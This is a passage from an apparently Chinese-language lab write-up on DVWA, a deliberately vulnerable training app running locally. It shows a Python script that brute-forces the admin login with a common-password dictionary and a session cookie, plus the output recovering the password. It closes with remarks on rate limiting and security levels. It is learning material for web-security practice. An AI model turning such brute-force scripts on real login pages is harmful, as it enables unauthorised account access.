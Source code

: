 ```python
            resp = requests.get(
                f'http://localhost:8080/vulnerabilities/brute/?username=admin&password={pwd}&Login=Login#',
                cookies={'PHPSESSID': 't6kml64lvsbd8909fkrh51ove0', 'security': 'low'})
            # 太粗暴
            print(f'[-] try password: {pwd}')
            if 'Username and/or password incorrect.' not in resp.content.decode('utf-8'):
                print(f'[+] Done! password is {repr(pwd)}')
                break
        else:
            continue
        break
```

运行后：

```plaintext
[+] open dict: Weak-password/Password dictionary/常用密码.dict
[-] try password: admin
[-] try password: admin12
[-] try password: admin888
[-] try password: admin8
[-] try password: admin123
[-] try password: sysadmin
[-] try password: adminxxx
[-] try password: adminx
[-] try password: 6kadmin
[-] try password: base
[-] try password: feitium
[-] try password: admins
[-] try password: root
[-] try password: roots
[-] try password: test
[-] try password: test1
[-] try password: test123
[-] try password: test2
[-] try password: password
[+] Done! password is 'password'
```

值得注意的是不清楚是不是因为我跑在容器里而且虚拟机只分配了 2C 1G 的缘故，每次尝试密码耗时都接近 1s。放在真实场景下，服务端如果限制了请求频率（或者把每个请求都用固定时间返回，如 1s），破解成本会骤然提高（不过对服务器来说固定返回时间也是有不低的成本的）。

### 提高难度

尝试把安全等级提高到 Medium 和 High 对暴力破解并没有什么用，不清楚是不是因为虚拟机太慢，单线程爆破没触发频率限制。但总之是和 Low 难度下没什么区别。

提高到 Impossible ，开启 PHPIDS 也无济于事。

可见系统设计再安全也顶不住人为因素，保险箱钥匙放在地毯下面的时候就算保险箱是振金做的也防不住贼啊。

## Command Injection
